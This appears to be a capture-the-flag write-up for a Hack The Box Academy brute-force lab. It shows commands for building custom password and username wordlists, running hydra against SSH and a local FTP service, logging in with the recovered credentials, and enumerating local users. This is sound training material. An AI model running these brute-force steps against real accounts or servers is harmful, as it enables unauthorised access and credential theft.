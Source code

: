 # Brute Force Skills Assessment Service Login  

[Skills Assessment Service Login](https://academy.hackthebox.com/module/57/section/516)  

>Previous Target user: `Harry Potter`
>Target: `94.237.49.11:30154` - Server: `SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1`   

>As you now have the name of an employee from the previous skills assessment question, 
>try to gather basic information about them, and generate a custom password wordlist that meets the password policy. 
>Also use 'usernameGenerator' to generate potential usernames for the employee. 
>Finally, try to brute force the SSH server shown above to get the flag.  

## OSINT  

>OSINT about Harry Potter : [Harry Potter - Wikipedia](https://en.wikipedia.org/wiki/Harry_Potter_character)  

## Custom Wordlists  

```
cupp -i
```  

![skills-assessment-service-login-cupp](/images/skills-assessment-service-login-cupp.png)  

>Based on the company securoty password policy we need to Cleanup the password wordlist `harry.txt`  

```
sed -ri '/^.{,7}$/d' harry.txt
sed -ri '/[!-/:-@\[-`\{-~]+/!d' harry.txt
sed -ri '/[0-9]+/!d' harry.txt
```  

>With username Generator,  Create [custom username wordlist](https://academy.hackthebox.com/module/57/section/512) based on employee full names: `Harry Potter`

```
./username-anarchy Harry Potter > harry-potter-names.txt
```

## Brute Force  

>SSH Brute Force - User/Pass Wordlists [Service Authentication Brute Forcing](https://academy.hackthebox.com/module/57/section/491)  
>If `HYDRA` use more than 4 threads, some requests may get dropped by the SSH server.  

```
hydra -L harry-potter-names.txt -P harry.txt -u -f ssh://94.237.49.11:30154 -t 4
```  

![skills-assessment-service-login-hydra](/images/skills-assessment-service-login-hydra.png)  

>Credentials brute forced result: login: `harry.potter`, password: `H4rry!!!`

## Foothold

>SSH to target wit obtained credentials.  

```
ssh harry.potter@94.237.49.11 -p 30154
```  

## Privilege Escalation  

>Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.
>Discover local listening services and their ports on the target.  

```
netstat -antp | grep -i list
```  

>Identify usernames on local system for linux.  

```
ls -al /home
```  

>FTP local services with new user discovered as the target, `g.potter`.  

```
hydra -l g.potter -P /home/harry.potter/rockyou-30.txt ftp://127.0.0.1
```

>Switch user in SSH session to `g.potter` and the brute forced password discoverd: `harry`.  

```
su g.pottter
```  

![harry-potter.png](/images/harry-potter.png)  